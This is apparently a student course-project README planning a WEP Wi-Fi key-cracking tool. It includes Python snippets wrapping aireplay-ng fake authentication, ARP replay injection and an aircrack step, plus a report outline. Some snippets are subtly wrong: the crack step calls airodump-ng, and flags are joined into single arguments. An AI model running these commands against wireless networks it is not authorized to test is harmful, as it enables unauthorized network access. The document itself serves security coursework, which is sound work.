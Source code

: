 # COMP4203 - Project



## Workflow





## To do:

### Implement Key Ranking

Could do this manually or use the algorithm `aircrack-ng` algorithm



### Verify Access Point

Verify that the access point is using the correct mode that enables the attack

```python
# aireplay-ng --fakeauth 0 -a C4:12:F5:7C:7C:0C -h d0:df:9a:8e:42:e9 wlp7s0
fake_auth = subprocess.Popen(
	['aireplay-ng', '--fakeauth 0', f'-a {access_point}', f'-h {source_mac}', iface], 
	stdout = subprocess.PIPE)
```



### Manage ARP Packets

Run the following passively until correct packets are found from the created requests?

```python
# aireplay-ng --arpreplay -b C4:12:F5:7C:7C:0C -h d0:df:9a:8e:42:e9 wlp7s0
arpreplay = subprocess.Popen(['aireplay-ng', '--arpreplay', f'-b {access_point}', f'-h {source_mac}', iface], stdout = subprocess.PIPE)
```



### Start Attack

After everything else is done (right number of packets captured) start cracking...

```python
# aircrack-ng <file_name>
aircrack = subprocess.Popen(['airodump-ng', 'output.cap'], stdout = subprocess.PIPE)
```



### Allow Selecting Any Interface?

Might be able to use 2 interfaces if you are on a wired connection and have a network card I guess... Could make it faster

```python
iface = 'wlan0'
```



## Report Structure

```
- Title page
    - Title
    - Names
    - Course
    - Date 
  
- Abstract? 

- Table of contents + list of figures + list of tabless...

- Introduction
    - Motivation
    - Purpose
    - Description and domain
    
- Literature review
    - Talk about that paper and how it works...
    
- Design
    - Approach and discuss logic...
    
- Implementation
    - Talk about our specific code
        - Deauth
        - Key ranking
    - Talk about limitations
    
- Results
    - Talk about simulations we ran and discuss results
    - Compare performance against existing paper and against goals

- Conclusion
    - Conclude that the paper was valid

- References

- Appendices
```

